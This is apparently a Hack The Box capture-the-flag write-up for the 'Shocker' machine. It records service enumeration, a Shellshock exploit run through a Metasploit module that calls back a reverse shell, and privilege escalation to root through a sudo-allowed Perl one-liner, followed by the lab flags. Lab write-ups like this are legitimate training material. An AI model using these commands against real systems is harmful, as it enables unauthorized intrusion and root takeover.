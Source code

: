 # HTB: Shocker

## Engagement Overview

**Target:** Shocker     
**Box IP:** 10.10.10.56     
**Date:** 2025-07-08    
**Difficulty:** Easy

---

### Objectives

- Enumerate HTTP and SSH services  
- Identify and exploit the Shellshock vulnerability  
- Escalate privileges to root  
- Capture user and root flags  

---

## Service Enumeration

```bash
nmap -sV -sC -p- 10.10.10.56
```

- **Port 80/tcp** – Apache 2.4.18 (Ubuntu)  
- **Port 2222/tcp** – OpenSSH 7.2p2 Ubuntu

### Dirsearch Results

```bash
dirsearch -u http://10.10.10.56 -e cgi,sh,pl,py
```

- `/cgi-bin/user.sh` (confirmed for Shellshock)
- Other 403 responses for `.htaccess*`, `/server-status`, etc.

---

## Methodologies

### Initial Access - Shellshock (CVE-2014-6271)

**Vulnerability Explanation:**  
Apache mod_cgi allows remote code execution via crafted HTTP headers. Exploitable through the `user.sh` script in `/cgi-bin/`.

**Exploitation Method (Metasploit):**
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 10.10.10.56
set TARGETURI /cgi-bin/user.sh
set LHOST <your-ip>
run
```

**Post-Exploitation:**  
- Shell received via Meterpreter  
- User: `shelly`

---

## Privilege Escalation

**sudo -l output:**  
```bash
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
```

**Exploitation:**
```bash
sudo perl -e 'exec "/bin/sh";'
```

- Shell escalated to root  
- `whoami` → `root`  
- `root.txt` captured

---

## House Cleaning
- Verified user and root flags
- Session closed cleanly
- No modifications left on disk

---

## Post-Exploitation

**Tools Utilized**
* `nmap`  
* `dirsearch`  
* `metasploit`  
* `LinEnum`  
* `gtofbins`  

**User Flag:**  
`084f092f15d55672beb680d9d4c00bca`  

**Root Flag:**  
`5b644f916a82afcad38cd359ec742ccc`  

---

## Key Takeaways

* **Tool Familiarity:** Improved comfort with `msfconsole`; it aligns well with your mental model.
* **Shell Handling:** Gained insight into managing reverse shells and privilege escalation using simple scripted payloads.
* **Practical Scripting Idea:** Consider writing a custom parser for `linenum.sh` output to streamline future small-box enumeration.
* **Flow Clarity:** HTB easy boxes like this are best used for muscle memory on tooling and developing clean workflows.